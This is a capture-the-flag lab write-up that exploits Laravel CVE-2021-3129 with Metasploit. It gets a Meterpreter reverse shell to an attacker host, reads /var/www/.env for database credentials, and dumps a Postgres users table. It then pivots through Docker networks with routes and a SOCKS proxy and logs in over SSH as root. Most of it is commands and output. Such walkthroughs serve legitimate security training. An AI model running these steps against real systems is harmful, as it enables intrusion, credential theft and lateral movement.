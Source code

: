 # Day 9

## Deploy the attached VM, and wait a few minutes. What ports are open?

```bash
nmap -T4 -A 10.10.154.224
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 10:30 EDT
Nmap scan report for 10.10.173.133
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Curabitur aliquet, libero id suscipit semper
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

{% hint style="info" %}
80
{% endhint %}

## What framework is the web application developed with?

Using `whatweb` to enumerate this website shows

{% code overflow="wrap" %}
```bash
whatweb http://10.10.154.224  
http://10.10.154.224 [200 OK] Apache[2.4.54], Cookies[XSRF-TOKEN,laravel_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.54 (Debian)], HttpOnly[laravel_session], IP[10.10.154.224], Laravel, PHP[7.4.30], Title[Curabitur aliquet, libero id suscipit semper], X-Powered-By[PHP/7.4.30]
```
{% endcode %}

The response of the network browser also confirms it

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Laravel
{% endhint %}

## What CVE is the application vulnerable to?

Search on google for Laravel CVE we can find this blog post:&#x20;

{% embed url="https://pentest-tools.com/blog/exploit-rce-vulnerability-laravel-cve-2021-3129" %}

{% hint style="info" %}
CVE-2021-3129
{% endhint %}

## What command can be used to upgrade the last opened session to a Meterpreter session?

Note that normal command shells do not support complex operations such as pivoting. In Metasploit’s console, you can upgrade the last opened Metasploit session to a Meterpreter session with `sessions -u -1`.

{% hint style="info" %}
sessions -u -1
{% endhint %}

## What file indicates a session has been opened within a Docker container?

A common way to tell if a compromised application is running in a Docker container is to verify the existence of a `/.dockerenv` file at the root directory of the filesystem.

{% hint style="info" %}
`/.dockerenv`
{% endhint %}

## What file often contains useful credentials for web applications?

The env file is a great way to find interesting things, usually on `/var/www/.env` or we can do a wide search on the OS with <mark style="color:green;">`find /tmp -iname .env -type f`</mark>

## What database table contains useful credentials?

Gain access to remove machine with metasploit

```
msfconsole
use exploit/multi/php/ignition_laravel_debug_rce
RHOSTS 10.10.154.224 HttpClientTimeout=30
set LHOST 10.8.30.181
run
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

* Get meterpreter session

```bash
background
sessions -u -1
sessions -i -1
```

Inside the `.env` file

```bash
cat /var/www/.env
```

```
DB_CONNECTION=pgsql
DB_HOST=webservice_database
DB_PORT=5432
DB_DATABASE=postgres
DB_USERNAME=postgres
DB_PASSWORD=postgres
```

* Lets try to resolve this DB\_HOST

```bash
meterpreter > resolve webservice_database

Host resolutions
================

    Hostname             IP Address
    --------             ----------
    webservice_database  172.28.101.51

```

As this is an internal IP address, it won’t be possible to send traffic to it directly. We can instead leverage the network pivoting support within msfconsole to reach the inaccessible host. To configure the global routing table in msfconsole, ensure you have run the `background` command from within a Meterpreter session:

```bash
background
route add 172.28.101.51/32 -1
```

We can also see, due to the presence of the `/.dockerenv` file, that we are in a docker container. By default, Docker chooses a hard-coded IP to represent the host machine. We will also add that to our routing table for later scanning:

```bash
route add 172.17.0.1/32 -1
```

* Print current routes with `route print`

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

With the previously discovered database credentials and the routing table configured, we can start to run Metasploit modules that target Postgres. Starting with a schema dump, followed by running queries to select information out of the database:

```bash
# Dump the schema
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:postgres@172.28.101.51/postgres

# Select information from a specific table
use auxiliary/admin/postgres/postgres_sql
run postgres://postgres:postgres@172.28.101.51/postgres sql='select * from users'
```

{% hint style="info" %}
users
{% endhint %}

What is Santa's password?\



<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
p4\$$w0rd
{% endhint %}

## What ports are open on the host machine?

To further pivot through the private network, we can create a socks proxy within Metasploit:

```bash
use auxiliary/server/socks_proxy
run srvhost=127.0.0.1 srvport=9050 version=4a
```

* From the attacker machine (Kali Linux)

```bash
curl --proxy socks4a://localhost:9050 http://172.17.0.1 -v

proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-11 14:27 CET
Nmap scan report for 172.17.0.1
Host is up (0.100s latency).

PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
443/tcp  closed https
5432/tcp closed postgresql

Nmap done: 1 IP address (1 host up) scanned in 0.75 seconds

```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
22,80
{% endhint %}

## What is the root flag?

With the password, credentials and proxy setup we can access the server as root

```bash
msfconsole
run ssh://santa:p4$$w0rd@172.17.0.1
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* Get meterpreter session here as well and find the flag

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         shell cmd/unix                                   10.8.30.181:4444 -> 10.10.154.224:56420 (10.10.154.224)
  2         meterpreter x86/linux  www-data @ 172.28.101.50  10.8.30.181:4433 -> 10.10.154.224:44460 (172.28.101.50)
  3         shell linux            SSH parallels @           10.8.30.181-10.10.154.224:52780 -> 172.17.0.1:22 (172.17.0.1)


sessions -i -1
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

